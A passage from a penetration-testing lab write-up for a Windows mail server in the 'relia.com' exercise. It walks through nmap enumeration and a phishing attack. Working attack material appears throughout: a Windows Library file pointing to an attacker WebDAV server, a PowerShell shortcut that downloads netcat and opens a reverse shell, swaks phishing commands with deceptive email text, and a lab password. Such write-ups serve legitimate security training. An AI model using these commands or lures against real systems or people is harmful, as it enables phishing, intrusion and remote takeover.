





---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# MAIL

## Enumeration

This machine is hosted at `192.168.X.189`:

```
Nmap scan report for 192.168.200.189
Host is up (0.052s latency).
Not shown: 65495 closed tcp ports (reset)
PORT      STATE    SERVICE       VERSION
25/tcp    open     smtp          hMailServer smtpd
| smtp-commands: MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
110/tcp   open     pop3          hMailServer pop3d
|_pop3-capabilities: USER TOP UIDL
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open     imap          hMailServer imapd
|_imap-capabilities: SORT RIGHTS=texkA0001 OK IMAP4rev1 NAMESPACE IDLE completed CAPABILITY QUOTA CHILDREN IMAP4 ACL
406/tcp   filtered imsp
445/tcp   open     microsoft-ds?
587/tcp   open     smtp          hMailServer smtpd
| smtp-commands: MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
2165/tcp  filtered x-bone-api
5166/tcp  filtered winpcs
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9654/tcp  filtered unknown
13453/tcp filtered unknown
13935/tcp filtered unknown
14585/tcp filtered unknown
16134/tcp filtered unknown
19055/tcp filtered unknown
28146/tcp filtered unknown
29577/tcp filtered unknown
29768/tcp filtered unknown
31750/tcp filtered unknown
34601/tcp filtered unknown
38704/tcp filtered unknown
39513/tcp filtered unknown
40958/tcp filtered unknown
44226/tcp filtered unknown
47001/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open     msrpc         Microsoft Windows RPC
49665/tcp open     msrpc         Microsoft Windows RPC
49666/tcp open     msrpc         Microsoft Windows RPC
49667/tcp open     msrpc         Microsoft Windows RPC
49668/tcp open     msrpc         Microsoft Windows RPC
49669/tcp open     msrpc         Microsoft Windows RPC
49670/tcp open     msrpc         Microsoft Windows RPC
50239/tcp filtered unknown
52611/tcp filtered unknown
55626/tcp filtered unknown
60169/tcp filtered unknown
61819/tcp filtered unknown
63367/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=7/28%OT=25%CT=1%CU=35381%PV=Y%DS=4%DC=T%G=Y%TM=66A6
OS:9EC1%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10B%TI=I%TS=A)OPS(O1=M55
OS:1NW8ST11%O2=M551NW8ST11%O3=M551NW8NNT11%O4=M551NW8ST11%O5=M551NW8ST11%O6
OS:=M551ST11)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)ECN(R=Y%DF
OS:=Y%T=80%W=FFFF%O=M551NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%
OS:Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6
OS:(R=N)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=9279
OS:%RUD=G)IE(R=N)

Network Distance: 4 hops
Service Info: Host: MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-07-28T19:40:30
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   50.87 ms 192.168.45.1
2   51.52 ms 192.168.45.254
3   52.58 ms 192.168.251.1
4   52.60 ms 192.168.200.189
```

It is clearly some type of mail server which immediately makes me think phishing.

## Phishing

This is the first spot I head after getting some valid user credentials. The first user I find is mark whose credentials were in the `umbraco.pdf` file found on FTP on port 14020 of `WEB02`.

### Windows Library Phishing

I decided to try to follow the steps shown here and gain execution with a Windows Library file.

I used a file called `config.Library-ms`:


```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    <name>@windows.storage.dll,-34582</name>
    <version>1</version>
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1003</iconReference>
    <templateInfo>
        <folderType>{B3690E58-E961-423B-B687-386EBFD83239}</folderType>
    </templateInfo>
    <searchConnectorDescriptionList>
        <searchConnectorDescription>
            <isDefaultSaveLocation>true</isDefaultSaveLocation>
            <isSupported>false</isSupported>
            <simpleLocation>
                <url>http://192.168.45.154:8888/webdav</url>
            </simpleLocation>
        </searchConnectorDescription>
    </searchConnectorDescriptionList>
</libraryDescription>
```


It links back to a WebDAV server on which I serve a `.lnk` file which is actually a PowerShell command:


```bash
powershell.exe -w hidden -c "iwr 'http://192.168.45.154:8080/netcat_x64.exe' -OutFile $env:userprofile\nc.exe;&(Join-Path $env:userprofile nc.exe) 192.168.45.154 135 -e powershell"
```


I am intending for the user to double-click this file and grant me execution.

#### Setting Up

I setup a file structure like this:

<figure><figcaption><p>Directory structure</p></figcaption></figure>

From a shell inside `./http` I launch a simple web server on port 8080 to serve up Netcat to the PowerShell "shortcut":

```bash
python3 -m http.server 8080
```

I need to set up the WebDAV server to actually server the library file. I do this inside the `./webdav` directory with the command:

```bash
wsgidav --host=192.168.45.154 --port=8888 --root=../ --auth=anonymous
```

* `--root` is set to the parent directory (`..`) so that when the URL `http://x.x.x.x/webdav` is requested it directs it into the current `./webdav` directory
  * If run from the parent directory with a `/webdav` sub-directory the `--root` value can be the current directory (`.`)

Lastly I launch my Netcat listener on 135:

```bash
rlwrap nc -lvnp 135
```

#### Sending Email

I write the body of the email into a `body.txt` file:


```
Hello all,

We are making some configuraton changes. Please open the attached library file and run the powershell script found in the linked location.

Thanks,
Mark
```


I now attempt to send my email as `mark` to all discovered users with the command:


```bash
sudo swaks -t miranda@relia.com -t steven@relia.com -t anita@relia.com -t peter@relia.com -t zachary@relia.com -t emma@relia.com --from mark@relia.com --attach @config.Library-ms --server 192.168.199.189 --body @body.txt --header "Subject: Staging Script" --suppress-data
```


Unfortunately it turns out mark cannot authenticate to the SMB server:

<figure><figcaption><p>Failed attempt at phishing</p></figcaption></figure>

There is another SMTP server on port 587 so I try again by adding `-p 587` to my `swaks` command but that does not work either.

I do not think this is necessarily a bad approach though. My plan is to periodically check back here as I find new users and credentials. Once I find a credential that can send emails I will send an email to _every other user_ I know about (and do not already have access to) and hope for some success.

I will come back here once I have more credentials to try.

### Manual SMTP Authentication

It is possible to use Telnet and [these steps](https://www.ndchost.com/wiki/mail/test-smtp-auth-telnet) to check credentials without having to try sending an email. This is demonstrated with the `maildmz` user discussed [below](mail.md#maildmz).

<figure><figcaption><p>Validating the credentials</p></figcaption></figure>

### maildmz

I eventually found some machine access on [`LEGACY`](legacy.md#git-examination) in the Git repo. I will attempt to use this user to send a phishing email.

Based on the name it seems pretty likely I will be able to send emails as this user. I validated the credentials could authenticate to the server using the steps [shown above](mail.md#manual-smtp-authentication).

I decide to take another crack at phishing. I follow the same [setup steps](mail.md#setting-up) as above.

#### Sending Email

At this point my `users.txt` file looks like this:


```
miranda
steven
mark
anita
offsec
peter
zachary
emma
jim
adrian
maildmz
```


But I have credentials for `mark` and `maildmz` plus valid hashes for `emma` and `zachary`. I decide to remove the first pair from my target list but keep `emma` and `zachary`. My targets will be:

```
miranda@relia.com
steven@relia.com
anita@relia.com
offsec@relia.com
peter@relia.com
zachary@relia.com
emma@relia.com
jim@relia.com
adrian@relia.com
```

I also slightly modify my `body.txt` file to remove reference to `mark`:


```
Hello all,

We are making some configuraton changes. Please open the attached library file and double click the shortcut to automatically run a configuration script.

Thanks you!
```


I will use a similar `swaks` command to above to send my email:

The first attempt failed because adrian@relia.com is apparently not a real email address. He must have just been a local user. Regardless I remove him and try again. This time it succeeds:


```bash
sudo swaks -t miranda@relia.com -t steven@relia.com -t anita@relia.com -t offsec@relia.com -t peter@relia.com -t zachary@relia.com -t emma@relia.com -t jim@relia.com --from maildmz@relia.com --attach @config.Library-ms --server 192.168.199.189 --body @body.txt --header "Subject: Staging Script" --suppress-data --auth-user 'maildmz@relia.com' --auth-password 'DPuBT9tGCBrTbR'
```


* Here is where I finally learned I could put my authentication directly in the command with `--auth-user` and `--auth-password`. The screenshot below was taken before that learning though.

<figure><figcaption><p>Successfully sending email</p></figcaption></figure>

Now wait.

### Port Switch

I wait awhile and start to worry I played a little too fast and loose with the ports. My WebDAV on port 8888 has not gotten a hit. This was probably a dumb place to put it especially since the reason was to avoid having to stop and start my actual Apache server. So I decide to try again with WebDAV on port 80 and leaving my HTTP server at 8080:

```
wsgidav --host=0.0.0.0 --port=80 --root=../ --auth=anonymous
```

At the same time I realize I had carelessly copy/pasted commands into my .lnk file and used the wrong IP address which was causing me to not get a hit on HTTP. I rectified this and then quickly got a shell:

<figure><figcaption><p>Obtaining a user shell</p></figcaption></figure>

It appears to be on an internal machine called [`WK01`](../internal-machines/wk01.md).
